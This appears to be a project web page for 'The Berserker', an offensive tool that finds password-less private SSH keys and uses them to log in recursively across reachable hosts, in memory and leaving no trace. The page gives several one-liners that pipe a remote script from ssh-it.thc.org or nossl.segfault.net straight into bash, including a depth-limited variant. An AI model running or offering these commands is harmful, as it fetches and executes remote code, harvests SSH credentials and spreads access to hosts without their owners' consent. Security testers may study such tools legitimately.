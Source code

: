 ```yaml
---
layout: default
title: The Berserker
description: A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/berserker/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-berserker-v1.html margin-top="0" margin-bottom="4rem" %}

<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

__The Berserker__ looks for password-less ssh-keys (such as `~/.ssh/id_rsa`) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start __The Berserker__:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```

or:

```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

## Tips & Tricks

* Press `CTRL-C` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to `BS_DEPTH=1` will make The Berserker log into the next host but not any farther.

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

## When HTTPS is not available

```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

## Alpha Testing

THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:

* #!adm for testing and comments

## Contact

{% include contact-details.md %}
